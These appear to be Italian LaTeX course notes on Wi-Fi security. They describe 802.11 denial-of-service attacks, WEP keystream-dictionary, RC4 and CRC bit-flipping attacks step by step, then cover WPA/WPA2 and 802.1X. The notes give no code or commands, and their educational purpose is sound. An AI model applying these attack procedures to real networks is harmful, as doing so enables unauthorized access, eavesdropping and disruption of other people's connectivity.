				L\textbf{a maggiore criticità risiede nel fatto che i pacchetti di autenticazione non sono autenticati alla singola macchina, rendendo facile per un attaccante falsificarli.}
				\begin{enumerate}
					\item Durante la fase di ingresso l'attaccante attende l'autenticazione e risponde al posto dell'AP con un pacchetto di deautenticazione
					\item In questo modo evita che la macchina bersaglio entri nella rete
					\item Un pacchetto di deautenticazione può essere inviato in qualsiasi momento da un'attaccante.
				\end{enumerate}
				\textbf{Lo scopo} di questo attacco potrebbe essere mirato al negare l'entrata di un particolare client all'interno della rete, o più semplicemente tenere fuori dalla rete altri client\textbf{ per avere più banda a disposizione.} L'attaccante dovrà stare sempre in ascolto di nuove autenticazioni se vuole compiere l'attacco in modo continuativo.\\
				\textbf{Si può fare un attacco specifico per l'associazione}, la differenza sta nel fatto che quest'ultimo non richiede una riautenticazione e quindi di minor impatto (può servire per far rivelare l ssdi, ovvero il nome della rete quando l'AP non lo rivela. Potrebbe essere il caso di reti nascoste.)\\
				Questo tipo di attacchi sono ancora più pericolosi se l'attaccante oltre a cambiare (\textbf{spoofare}) l'indirizzo sorgente, utilizza \textbf{l'indirizzo di destinazione di broadcast}, di fatto inviando pacchetti di deautenticazione a tutti i client della rete. Si possono configurare i client per non accettare richieste di autenticazione/deautenticazione in broadcast,\textbf{ non rispettando lo standard.} 
			\subsubsection{DoS: sull'accesso al canale}
				
					\textit{Campo duration dei pacchetti MAC \ref{fig:56}}\\
				\begin{figure}[h!]
					\centering
					\includegraphics[scale=0.80]{img/duration.PNG}
					\caption{Campo duration dei pacchetti MAC\label{fig:56}}
				\end{figure}\\
				
				Un attacco che sfrutta il campo \textbf{duration} dell'header in un pacchetto MAC. Questo campo specifica quanto il canale sarà occupato dal mittente del pacchetto. \textbf{Ogni client che riceve un pacchetto MAC, anche se non rivolto al suo indirizzo MAC, deve leggerlo e rispettare il campo duration}.\\
				Il campo duration è espresso in \textit{microsecondi}, ma l'attaccante può inviare un nuovo pacchetto prima che scada il timeout, prenotando nuovamente il canale.\\
				Il risultato è che \textbf{nessuna macchina può trasmettere a parte l'attaccante.}
			\subsubsection{DoS: modalità powersave}
			
					\textit{Campo power save pacchetto dati \ref{fig:57}}\\
				\begin{figure}[h!]
					\centering
					\includegraphics[scale=0.80]{img/power.PNG}
					\caption{Campo power save pacchetto dati\label{fig:57}}
				\end{figure}\\
				
				Questo attacco utilizza pacchetti con il \textbf{bit di Power Save} settato a 1. Normalmente il client invia pacchetti con bit Power save a 1 quando non vuole ricevere più traffico da parte dell'AP, che salverà i pacchetti a lui indirizzati in un \textbf{buffer}, in attesa che lo stesso client li richieda.\\
				Se l'attaccante invia pacchetti \textbf{spoofati} (dunque con un indirizzo sorgente relativo ad un particolare client della rete) \textbf{con una certa frequenza}, potrà \textbf{isolare} il client con uno sforzo relativamente basso.
			
			\subsubsection{DoS: saturazione della banda}
				Si utilizzano i messaggi di \textbf{probe}. In una situazione normale i messaggi di probe a livello II vengono inviati in broadcast \textbf{per trovare le macchine circostanti}. 
				\begin{itemize}
					\item la macchina richiedente invia un pacchetto di tipo \textbf{management} e di tipo \textbf{probe} in broadcast.
					\item Tutte le macchine che ricevono tale pacchetto devono rispondono con un \textbf{probe reply} diretto al richiedente.
				\end{itemize}
				Essendo messaggi di management i messaggi probe \textbf{non vengono cifrati}, esponendoli a possibili falsificazioni da parte di un attaccante, con lo scopo di provocare le risposte dagli altri host della rete. \textbf{Ripetendo tali richieste in continuazione egli può occupare tutta la banda disponibile sfruttando l'effetto di riflessione degli altri host}.\\
				A differenza del DoS sulla deautenticazione non si può evitare che un client risponda a questo tipo di pacchetti in broadcast, poichè si invaliderebbe l'utilità stessa del meccanismo di probing.
				
			\subsubsection{DoS: stato fisico (jamming)}
				Entrando nel merito del livello fisico del protocollo 802.11 utilizza una codifica \textbf{spread spectrum} attraverso la quale il segnale viene trasmesso utilizzando una \textbf{banda più larga} di quanto sia necessario, \textbf{aggiungendo ridondanza}. A destinazione il segnale \textbf{viene ricostruito in gamma più stretta.}\\
				Il risultato è che un segnale molto potente ma concentrato su una gamma di frequenza molto stretta, viene ricevuto a destinazione, dopo la ricostruzione, \textbf{come un rumore diffuso su tutta la frequenza}.	 \textbf{Risulta molto difficile disturbare la ricezione di tutti i dati}. \\
				Un attacco di questo genere ha dunque l'obiettivo di invalidare il \textbf{codice di controllo errori} presente nei pacchetti di rete. Per farlo è sufficiente disturbare la ricezione di \textbf{un solo bit}. Il pacchetto non passerà il controllo di errore e sarà \textbf{scartato} e quindi ritrasmesso.
			\subsubsection{Attacchi sui software dell'AP}		
				Molto spesso le AP presentano delle interfacce web, utilizzate dalle macchine collegate alla rete per accedere \textbf{all'interfaccia di gestione} attraverso la quale possono configurare l'AP. Questi SW hanno spesso dimostrato di avere vulnerabilità come \textbf{buffer overflow} e \textbf{password attive di default.} In alcuni casi \textbf{il reset improvviso} dell'AP può provocare il riavvio di una modalità provvisoria che offre a utenti senza credenziali la possibilità di autenticarsi.\\
				\textbf{Altri attacchi} riguardano le liste SW gestite dall'AP.  Gli AP devono \textbf{mantenere una lista} delle:
				\begin{itemize}
					\item macchine autenticate nella rete
					\item macchine associate
					\item macchine che hanno richiesto l'autenticazione ma non
					hanno ancora completato le procedure.
				\end{itemize} 
				  Quando una lista si riempie, altre richieste vengono scartate.\\
				Si devono dunque utilizzare politiche di gestione delle liste efficienti. Ecco alcuni esempi di inefficienza.
				\begin{itemize}
					\item Le liste sono \textbf{code a scorrimento}, dunque se la lista è piena e arriva un'ulteriore macchina la più vecchia viene tolta dalla lista. \textbf{Forgiando richieste di autenticazione false si riempie la lista e si impediscono anche le autenticazioni in corso}.
					\item \textbf{Se le tre liste sono unite in un'unica lista}: lo scenario precedente si manifesta in modo ancor più grave.
					\item \textbf{Cattiva gestione della memoria}: si può causare buffer overrun e il riavvio dell'AP.
				\end{itemize}
				
			\subsubsection{Shared Key e Oracle attack}
				Come abbiamo già detto la chiave WEP è statica, in questo modo non esiste nessuna segretezza e quindi autenticazione tra le macchine della rete. Una macchina autenticata può addirittura spostare la chiave su altre macchine e lasciare che esse entrino. Inoltre, anche le \textbf{access list } dell'AP sono statiche rendendo il problema della gestione molto importante. Si possono anche cambiare gli indirizzi MAC delle schede wireless. Il risultato è che t\textbf{utta la fiducia sia riposta nella certezza che l'algoritmo di autenticazione e cifratura sia robusto.} Per tale motivo l'AP non si autentica con le macchine.\\
				\textbf{Tuttavia, l'autenticazione shared key è tragicamente insicura}
				\begin{itemize}
					\item Nel giro di pochi secondi passo lo stesso testo (128byte) in chiaro e poi cifrato.
					\item un attaccante può potenzialmente recuperare un frammento del \textbf{keystream} che può utilizzare per inviare pacchetti nella rete anche senza possedere una chiave WEP.
					\item un attaccante può effettuare un attacco di tipo \textbf{reply} anche senza conoscere la chiave, \textbf{spacciandosi per l'AP}.
					\item si può effettuare l'attacco \textbf{dell'oracolo}.
				\end{itemize}
			L'attacco dell'oracolo dunque vede un attaccante che ha la volontà di inviare messaggi nella rete senza conoscere la chiave segreta:
			\begin{enumerate}
				\item In primo luogo \textbf{deautentica un client}
				\item forgia un pacchetto con un \textit{challenge text}, spacciandosi per l'AP, \textbf{contenente i dati che vuole inviare}.
				\item Il client risponde con un challenge text cifrato con un certo IV. Di fatto questo pacchetto è valido per essere inviato lungo massimo 128byte.
			\end{enumerate}	
			L'attacco non ha un utilizzo concreto molto comune, ma dimostra la goffaggine con cui sono stati progettati i meccanismi di sicurezza.
			Questi problemi hanno spinto i produttori di AP e i gestori delle reti a preferire l'autenticazione \textbf{opend system.} Per evitare che chiunque entri nella rete si preferisce mascherare nei beacon l'ESSID dell'AP, parametro necessario per richiedere autenticazione. 
			Si crea però un'altra divergenza dallo standard.
			
			\subsubsection{Attacchi Man in the middle}
				L'attacco man in the middle prevede di dirigere tutto il traffico tra due host attraverso la propria macchina con i seguenti scopi:
				\begin{itemize}
					\item Assicurarsi che il traffico da intercettare passi per la propria macchina 
					\item convincere una macchina che la forma di autenticazione è cambiata e che non si utilizza più lachiave WEP.
					\item Poter influenzare le procedure di autenticazione e crittografia degli strati superiori (attacco MINTM sui certificati SSL).
				\end{itemize}
				Di seguito le possibili modalità di attacco:
				\begin{itemize}
					\item Qualsiasi macchina della rete che possiede la chiave WEP \textbf{può spacciarsi per l'AP}.
					\item Se un attaccante deautentica l'host, l'host cercherà di ripetere l'autenticazione. Ne scaturisce una \textbf{race condition} per cui l'attaccante cerca di rispondere prima dell'AP. Quest'ultimo si può aiutare con una seconda scheda di rete per \textbf{produrre un DoS sul vero AP} in modo da favorirsi nella corsa.
					\item Spesso dopo un certo numero di disconnessioni un host cercherà di ripetere l'autenticazione su un canale diverso, facendo \textbf{channel hopping}. L'attaccante si può mettere in ascolto su un altro canale così è sicuro che la vittima si collegherà con lui.
					\item I finti AP si chiamano \textbf{Rogue AP o Fake AP}.
				\end{itemize}	
			\subsubsection{Dizionario dei Keystream}
				\textbf{La non ripetizione di IV è fondamentale} per non rischiare di esporre il materiale cifrato, \textbf{riutilizzare un IV significa utilizzare due volte lo stesso keystream}. Come abbiamo visto il protocollo permette di accedere al contenuto in chiaro e successivamente (in pochi secondi) a quello cifrato, dunque se si cifrasse con lo stesso keystream si potrebbe risalire al contenuto di tutti questi pacchetti cifrati con lo stesso IV.\\
				\textbf{Risulta possibile costruire un dizionario di tutti i keystream?}.
				\begin{itemize}
					\item Il campo IV è lungo 24 bit dunque si possono ottenere 16.777.216 keystream diversi.
					\item essendo i pacchetti lunghi 1500 byte si devono 25GB di traffico, che su una rete con 30Mbit/s si ottengono in 2 ore.
				\end{itemize}
				Questo ci permette in linea teorica di \textbf{poter costruire un dizionario} di tutti i keystream.
				\begin{itemize}
					\item  Per ricavare un keystream l’attaccante deve conoscere il
					contenuto del pacchetto che vede passare cifrato.
					\item Esistono dei pacchetti di cui il contenuto è predicibile, e
					che sono riconoscibili dalla lunghezza (es: DHCP
					request).
					\item Quando l’attaccante vede passare un pacchetto della
					lunghezza corrispondente conosce il contenuto, quindi
					automaticamente ricava il keystream.
				\end{itemize}
					
					\textit{Ottenere un keystream \ref{fig:57}}\\
				\begin{figure}[h!]
					\centering
					\includegraphics[scale=0.50]{img/keystream.PNG}
					\caption{Ottenere un keystream\label{fig:57}}
				\end{figure}\\
				
				Un'eventualità durante questo tipo di attacchi è quella di ricavare un keystream che sia più piccolo di quello totale (quindi non lungo quanto l'MTU della rete). \textbf{In questo caso l'attaccante deve poter estendere tale keystream.}
				
				\begin{itemize}
					\item  Se l’attaccante conosce un keystream lungo N bytes, forgia
					un nuovo pacchetto (es: Ping), più lungo di un byte.
					\item Non può cifrare questo byte aggiuntivo perchè non conosce
					il byte aggiuntivo di keystream, quindi suppone che sia
					0x00.
					\item L’attaccante ricalcola il CRC, lo accoda al pacchetto e lo
					invia.
					\item A destinazione il CRC viene verificato, se il byte di
					keystream non era 0x00 il CRC fallisce, e non viene ricevuta
					risposta. Altrimenti si riceve una risposta, quindi 0x00 era il
					byte giusto.
					\item Se non si riceve risposta si riprova con 0x01 . . .	
				\end{itemize}
				\textbf{Mediamente dopo 128 tentativi si ottiene il byte di estensione}. Se non si vuole impattare troppo sulle prestazioni della rete si può pensare di indovinare il keystream nell'arco di 24 ore.\\
				Ottenuto il primo keystream l'attaccante \textbf{può cominciare a costruire il dizionario}
				\begin{itemize}
					\item  Avendo a disposizione un
					keystream intero \textbf{può iniettare} nella rete pacchetti
					che vengono elaborati correttamente dalle macchine collegate
					\item Esiste un’opzione del protocollo ICMP che impone ad una
					macchina che riceve un ping di rispondere esattamente
					con lo stesso pacchetto.
					\item L’attaccante forgia dei ping di 1500 byte, e conosce la
					risposta.
					\item La vittima risponderà utilizzando IV diversi, quindi
					mettendo a disposizione dell’attaccante nuovi keystream.
				\end{itemize}
				Facciamo due calcoli riguardo il tempo necessario per un attacco del genere:
				\begin{itemize}
					\item Individuazione pacchetto DHCP/attacco dell'oracolo (pochi secondi)
					\item estensione del keystream (24 ore)
					\item generazione del dizionario (3/4 ore)
					\item totale circa 28 ore
					\item tuttavia se si vuole rendere l'attacco \textbf{meno evidente} occorre diminuire il traffico generato e \textbf{raddoppiare o triplicare} il tempo occorrente
					\item una volta costruito il dizionario si possono decifrare tutti i pacchetti della rete oltre che inviarne senza conoscere la chiave segreta.
				\end{itemize}
			\subsubsection{Vulnerabilità di RC4}
				Scoperta nel 2001 da Fluhrer, Mantin e Shamir. \textbf{La vulnerabilità risiede nel modo in cui RC4 genera i keystream}.
				In particolare esiste una correlazione statistica tra il primo byte del keystream e la chiave segreta utilizzata. \textbf{Si dice che esistono IV deboli}. Raccogliendo 60 pacchetti cifrati a partire da IV deboli 	si può \textbf{ricavare la chiave segreta}, che una volta compromessa da accesso completo alla rete!
				\begin{itemize}
					\item Gli IV deboli sono distribuiti uniformemente nello spazio degli IV, e per ottenere 60 IV interessati ci vogliono mediamente 4.000.000 di pacchetti cifrati.
					\item Dunque a seconda del traffico generato dalla rete in poche ore si rompe una chiave WEP e si ottiene una chiave di sicurezza da 40 bit.
					\item La complessità dell'attacco aumenta \textbf{linearmente} con la lunghezza della chiave WEP.
					\item Alcuni produttori corrono ai ripari impedendo ai  loro AP di utilizzare IV deboli, \textbf{non rispettando lo standard}.
				\end{itemize}
				Nel 2004 l'hacker KoreK invia su un forum un programma basato su una sua ricerca statistica, che svela \textbf{un'altra correlazione} anche tra \textbf{altri byte di keystream} e la chiave WEP rendendo l'attacco precedente ancora più facile.\\
				Successivamente vengono introdotto \textbf{nuove migliorie} per rompere una chiave WEP a 40 bit: basta raccogliere qualche decina di migliaia di pacchetti cifrati ed attendere un tempo di elaborazione \textbf{di pochi secondi}.\\
				Alcune note sull'algoritmo:
				\begin{itemize}
					\item Le specifiche di RC4 vengono rivelate solo alcuni anni dopo la sua pubblicazione
					\item La comunità scientifica riceve RC4 con sospetto e dunque lo analizza in ritardo.
					\item \textbf{Utilizzare un algoritmo chiuso ha prodotto questo risultato}
				\end{itemize} 
			\subsubsection{Attacchi sul CRC}
				Il CRC è lineare rispetto all'operazione di $\oplus$. Definiamo C come un pacchetto cifrato, M pacchetto in chiaro e K il keystream.
				
					\textit{Linearità del CRC \ref{fig:58}}\\
				\begin{figure}[h!]
					\centering
					\includegraphics[scale=0.50]{img/crc1.PNG}
					\caption{Linearità del CRC\label{fig:58}}
				\end{figure}\\
				
				Se vogliamo generare un messaggio $M^{1}_{p}$ 0 che sia una modifica
				del messaggio originale M (definiamo $M^{1}_{p}$ = $M_{p} + d$  dove d è la modifica che vogliamo apportare) e ottenere un corrispondente messaggio cifrato $C^{1}$ possiamo farlo:
				
				\textit{Linearità del CRC \ref{fig:59}}\\
				\begin{figure}[h!]
					\centering
					\includegraphics[scale=0.50]{img/crc2.PNG}
					\caption{Linearità del CRC\label{fig:59}}
				\end{figure}\\
			
				L'attaccante può prendere un pacchetto cifrato, cambiarne
				il contenuto (facendo lo XOR sia del contenuto con d, sia
				del CRC con CRC(d)), reinviarlo anche senza conoscere il
				contenuto.
				Ad esempio, l’attaccante potrebbe\textbf{ cambiare parte
				dell’indirizzo IP destinazione} (se è predicibile in qualche
				modo). In questo modo l’AP reinstraderebbe verso
				l’esterno (possibilmente verso un host controllato
				dall’attaccante stesso) il pacchetto, ovviamente dopo
				averlo decifrato.\\
				
				Lo stesso tipo di attacco può essere utilizzato per recuperare
				una messaggio in chiaro dato un messaggio cifrato un byte alla
				volta:
				\begin{itemize}
					\item L’attaccante prende un pacchetto C, ed elimina l’ultimo
					byte B.
					\item Con trasformazioni simili a quelle viste, si può ricalcolare il
					CRC del messaggio troncato a partire da C e da B. Ma
					l’attaccante non conosce B.
					\item Pone B=0x00, ricalcola il CRC del pacchetto troncato e lo
					invia.
					\item 	Se l’AP risponde qualcosa (qualsiasi risposta indica che il CRC era corretto) allora l’ultimo byte del messaggio
					originale è effettivamente 0x00.
					\item Altrimenti cicla con 0x01
				\end{itemize}
	
				
			
				
				
			\subsubsection{HTTP Authentication}
				All'ingresso nella rete il client fa un'autenticazione e un'associazione in standard 802.11\\
				
				\textit{HTTP Authentication \ref{fig:60}}\\
				\begin{figure}[h!]
					\centering
					\includegraphics[scale=0.50]{img/auth.PNG}
					\caption{HTTP Authentication\label{fig:60}}
				\end{figure}\\
				
				Il client riceve un indirizzo IP con DHCP\\
				
				\textit{HTTP Authentication 2\ref{fig:61}}\\
				\begin{figure}[h!]
					\centering
					\includegraphics[scale=0.50]{img/dhcp.PNG}
					\caption{HTTP Authentication 2\label{fig:61}}
				\end{figure}\\
				
				Il client si connette alla porta 80 del server di autenticazione e si autentica con una metodo qualsiasi (SSL, password, md5 password ecc..) 
				
						\textit{HTTP Authentication \ref{fig:62}}\\
				\begin{figure}[h!]
					\centering
					\includegraphics[scale=0.50]{img/auth2.PNG}
					\caption{HTTP Authentication\label{fig:62}}
				\end{figure}\\
				
				Dunque per sintetizzare non esiste uno standard per effettuare e l'autenticazione deve sempre passare su SSL.\\
				Si introducono tutti i problemi riguardanti i livelli superiori:
				\begin{itemize}
					\item Sicurezza del webserver 
					\item sicurezza del browser (Cookies, SQL Injection ecc)
				\end{itemize}
			
		\subsection{Il protocollo 802.11i}
			\begin{center}
				\textbf{ABBREVIAZIONI}
			\end{center}
			\begin{itemize}
				\item \textbf{802.1X} Port-Based Network Access Control standard.
				\item \textbf{WPA} Wireless Protected Access certification (vers. 1 o
				2).
				\item \textbf{EAP} Extensible Authentication Protocol.
				\item \textbf{EAPoL} EAP Over LAN.
				\item \textbf{TLS} Transport Layer Security.
				\item \textbf{RADIUS} Remote Authentication Dial In User Service
			\end{itemize}
			\subsubsection{Storia di 802.11i}
				\begin{enumerate}
					\item \textbf{4/2003}: nasce WPA
					\item \textbf{6/2004}: nasce lo standard 802.11i, ovvero WPA2
					\item In seguito alla sua uscita molti tra i produttori hanno rilasciato degli aggiornamenti di firmware/driver perchè i loro vecchi prodotti pre 802.11i fossero almeno compatibili con WPA.
				\end{enumerate}	
			\subsubsection{Novità di 802.11i}
			\textbf{Algoritmi di crittografia rinnovati}:
			\begin{itemize}
				\item  \textbf{TKIP}: utilizza RC4 ma in una modalità che non permette gli attacchi visti su WEP.
				\item \textbf{CCMP:} abbandona RC4 e utilizza AES per la cifratura 
			\end{itemize}
			\textbf{Gestione delle chiavi rinnovata:}
			\begin{itemize}
				\item \textbf{WPA-PSK}: pre shared key tra le macchine della rete
				\item \textbf{802.1X based authentication}	
			\end{itemize}
			\textbf{Non cambiano}:
			\begin{itemize}
				\item Il traffico di management
				\item traffico di controllo 
			\end{itemize}
			\textbf{Cambio di algoritmi}: Si utilizzano due algoritmi al posto di WEP, il \textbf{Tkip} o il \textbf{CCMP}, entrambi eliminano le problematiche di sicurezza riguardanti IV (corti, chiavi crackabili ecc), al prezzo di maggiore complessità, quindi difficilmente sono stati portati su hardware esistente.
			\subsubsection{WPA, WPA2 and insecurity}
				Il \textbf{WPA} è una versione di 802.11i che anticipa lo standard e già utilizza gli algoritmi di TKIP con gestione delle chiavi statica detta anche WPA Home o WPA-PSK. Gli AP possono utilizzare TKIP  con un semplice aggiornamento del firmware.\\
				Il \textbf{WPA2} è la versione completa dello standard con l'utilizzo di 802.11X (WPA Enterprise). In questo caso gli ap devono implementare il client RADIUS e l'algoritmo CCMP, difficilmente realizzabili su hardware limitati.\\
				Per quanto riguarda le \textbf{insicurezza} è da evidenziare l'esistenza di una variante dell'attacco \textbf{chopchop per TKIP}. Vediamo le principali differenze rispetto a WEP:
				\begin{itemize}
					\item Con WPA non si può ripetere due volte lo stesso IV (che prendere in questo caso il nome di \textbf{TSC}), perchè il ricevitore tiene un contatore degli ultimi ricevuti.
					\item Nel caso di IEEE 802.11e, esistono 8 code differenti di ricezione ciascuna con TSC indipendente.
					\item l'attacco può essere portato decifrando un byte per volta di un pacchetto utilizzando le code diverse.
					\item Nella pratica possiamo \textbf{decifrare un pacchetto cifrato} e recuperare un keystream per riutilizzarlo in una coda distinta per iniettare un pacchetto nella rete.
				\end{itemize}                                                   
			\subsubsection{802.1x: Port based network access control}
				Si tratta di uno standard che definisce dei ruoli generici per l'architettura di controllo degli accessi in reti 802. In questo standard vengono divisi i due ruoli dell'authenticator e dell'AP, che in questo caso offre solo accesso di livello II. In questo modo viene ridisegnata la \textbf{topologia della rete} rendendola più gestibile.\\
				
						\textit{Topologia 802.1X \ref{fig:63}}\\
				\begin{figure}[h!]
					\centering
					\includegraphics[scale=0.50]{img/topo.PNG}
					\caption{Topologia 802.1X\label{fig:63}}
				\end{figure}\\
				
				I link in nero sono wired mentre quelli in rosso sono wireless, il link tra \textit{authentication} server e \textit{authenticator}, è un link di livello 3 \textbf{considerato sicuro.}\\
				Vediamo quali sono i \textbf{ruoli} all'interno della topologia:
				\begin{itemize}
					\item \textit{Supplicant:} 
					\begin{itemize}
						\item Si deve autenticare per entrare nella rete.
						\item Deve generare del \textit{keying material} per poter comunicare in modo sicuro con l'\textit{authenticator}.
					\end{itemize}
					\item \textit{authenticator}
					\begin{itemize}
						\item Non ha ruolo attivo nell'autenticazione (proxy)
						\item Alla fine dell'autenticazione deve possedere il keying material in comune con il supplicant.
						\item deriva dal keying material chiavi per cifrare ed autenticare.
					\end{itemize}
					\item \textit{authentication server}:
					\begin{itemize}
						\item si tratta di un \textbf{database di credenziali} di autenticazione, quindi di fatto è lui che autentica il supplicant.
						\item una volta stabilita l'identità di supplicant decide se farlo entrare o meno e comunica la decisione all'authenticator.
						\item Anche l'authentication server deve autenticarsi con il supplicant, \textbf{l'autenticazione è sempre bidirezionale}.
					\end{itemize}
				\end{itemize}
				Vediamo adesso quali sono le \textbf{fasi dell'autenticazione}:
				\begin{itemize}
					\item \textit{Fase 1:} autenticazione 802.11 (solo per compatibilità) e associazione.
					\item \textit{Fase 2}: autenticazione tra supplicant e
					authentication server. Le due macchine verificano la reciproca
					identità e producono una chiave simmetrica \textbf{PMK} (Pairwise master key).
					\item \textit{Fase 3}: la PMK viene spostata sull'authenticator.
					\item \textit{fase 4}: a partire dalla PMK supplicant e authenticator
					derivano delle chiavi che verranno utilizzate per cifrare e
					autenticare tutti i pacchetti successivi (chiave \textbf{PTK} per il traffico
					unicast e \textbf{GTK} per il traffico broadcast).
				\end{itemize}
			 	Da questo momento in poi l’authentication server non partecipa più alle comunicazioni se non interpellato. Saltuariamente supplicant e authenticator possono decidere di generare delle nuove GTK e PTK a partire dalla PMK che rimane la stessa (key refresh). dalla PMK che rimane la stessa (key refresh). L’authenticator può decidere di forzare anche una riautenticazione, e costringere il supplicant a ripetere l’autenticazione iniziale per generare una nuova chiave PMK.\\
			 	Un’autenticazione completa coinvolge diversi\textbf{ protocolli} e può essere configurata in molti modi diversi.\\
			 	I \textbf{protocolli} possono essere di due tipi:
			 	\begin{itemize}
			 		\item \textbf{End to End (ete)}: un protocollo che coinvolge due macchine virtualmente collegate, ma non fisicamente
			 		comunicanti (ad es. TCP/UDP). Nel nostro caso EAP.
			 		\item \textbf{Point to Point (ptp)}: un protocollo che coinvolge due macchine che sono direttamente connesse (ad es.
			 		DHCP). Nel nostro caso EAPoL, ma anche, astrattamente RADIUS.
			 	\end{itemize}
		 		Vediamo nel dettaglio:
		 		\begin{itemize}
		 			\item \textbf{Fase 1}: Standard 802.11a/b/g.
		 			\item \textbf{Fase 2}: Tra supplicant e authentication server si usa il
		 			protocollo EAP (ete). Questo viene veicolato tra
		 			supplicant e authenticator dentro a pacchetti in
		 			formato EAPoL, e tra authenticator e
		 			authentication server attraverso il protocollo
		 			RADIUS (ptp).
		 		\end{itemize}
	 		\subsubsection{WPA Home}
	 			 Se non si vuole utilizzare un authentication server si
	 			possono impostare le chiavi PMK direttamente nel supplicant e nell’authenticator. Si parla di \textbf{PSK Pre-Shared Key:}
	 			\begin{itemize}
	 				\item Tutto funziona nello stesso modo, ma si salta la parte di autenticazione EAP e si prosegue dagli handshake.
	 				\item Le PSK possono essere configurate in una lista, associate
	 				ai MAC address delle schede di rete dei client.
	 			\end{itemize}
	 			Una PSK è costituita da 256 bit e può essere specificata come:
	 			\begin{itemize}
	 				\item Una stringa in esadecimale: 0xa39f16ed6. . .
	 				\item Una password che viene trasformata in 256 bit di chiave
	 				PSK.
	 			\end{itemize}
 			
 				INSERIRE hyrerchy\\
 				
 				
	 			
	 		
	 			
	 		
	 		
			 
			 
			 
			 
			 
			 
			
				                                     
				
			
				
			  
			
			
			
			
			
			
			
				
				
				
				
				
				
				
				
				
				
			
		
			
			
			
				
				
				
				
				
			
			
		
		
		
				
				
				
		
			
			
				
			
			
			
			 
						
		
		
		
			
		
				 

\end{document}